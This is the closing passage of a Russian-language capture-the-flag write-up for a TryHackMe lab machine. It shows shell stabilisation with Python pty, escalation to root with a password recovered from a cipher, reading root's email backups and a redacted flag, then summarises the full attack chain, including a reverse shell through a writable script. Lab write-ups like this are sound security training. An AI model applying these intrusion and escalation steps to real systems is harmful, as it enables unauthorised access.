- поэтому слово `FACE` выступает как **семантический ключ**
- оставшаяся часть является результатом дешифровки, связанной с этим ключом

📌 Таким образом, “FACE” не просто часть текста, а **ключевой маркер, указывающий на способ расшифровки и смысл скрытого сообщения**

---

## Вывод

Было установлено, что строка:

```text
cageisnotalegend
```

является потенциально важным секретом (возможно, пароль или credential для дальнейшей эскалации до root), полученным после корректной дешифровки с учётом контекста “FACE”.


## Privilege Escalation to root

После получения доступа к пользователю `cage` была выполнена попытка повышения привилегий до root.

### Попытка `su` без терминала

```bash
su root
```

Возникла ошибка:

```text
su: must be run from a terminal
```

Это указывает на отсутствие полноценного TTY в текущей сессии.

---

## Стабилизация shell

Для корректной работы интерактивного терминала была выполнена стабилизация shell с помощью Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Что делает команда:

- `pty.spawn()` создаёт псевдотерминал (PTY)
- позволяет эмулировать полноценную интерактивную bash-сессию
- восстанавливает корректную работу `su`, job control и терминальных функций

После этого сессия стала стабильной.

---

## Повышение привилегий

Повторная попытка переключения на root:

```bash
su root
```

Был запрошен пароль, после чего использован ранее найденный credential:

```text
cageisnotalegend
```

Успешный переход:

```text
root@national-treasure:/home/cage#
```

---

## Дальнейшая навигация

После получения root-доступа была выполнена проверка файловой системы:

```bash
cd /
ls
```

Обнаружена стандартная структура Linux-системы.

Далее проверена директория root:

```bash
cd /root
ls
```

Внутри найден каталог:

```text
email_backup
```

---

## Root enumeration

```bash
cd email_backup
ls
cat email_1 email_2
```

В письмах обнаружена информация о скрытом “master” пользователе и системе управления Cage.

---

## Получение root-флага

В одном из писем найден финальный флаг:

```text
THM{████████████████████████}
```

---

## Общий вывод по задаче

В ходе выполнения лабораторной работы была пройдена полная цепочка атак:

### 1. Разведка (Reconnaissance)
- nmap сканирование
- выявление FTP, SSH, HTTP
- обнаружение анонимного FTP доступа

### 2. Первичный доступ (Initial Access)
- получение файла `dad_tasks` через FTP
- Base64 декодирование
- криптоанализ через CyberChef

### 3. Криптоанализ
- выявление шифра Виженера
- использование Boxentriq и dCode
- получение учетных данных пользователя `weston`

### 4. User foothold
- вход по SSH как `weston`
- анализ системы
- поиск writable/interesting файлов

### 5. Privilege escalation to cage
- анализ `/opt/.dads_scripts/`
- эксплуатация write-permission в `.quotes`
- получение reverse shell через `wall`

### 6. Post-exploitation user
- анализ email backup
- выявление скрытого ключа `FACE`
- получение пароля `cageisnotalegend`
- переход к пользователю `cage`

### 7. Root escalation
- стабилизация shell через `pty.spawn`
- использование `su root`
- получение root-доступа

### 8. Root access
- исследование `/root`
- анализ email переписки
- получение root-флага

---

## Итог

Задача была успешно решена с прохождением всех этапов классической цепочки:

> Recon → Foothold → Crypto → Lateral movement → Privilege escalation → Root

Все этапы демонстрируют комбинацию:
- анализа сервисов
- криптоанализа
- злоупотребления правами доступа
- неправильной конфигурации cron/скриптов
- слабых учетных данных

---

Автор: **masquadd**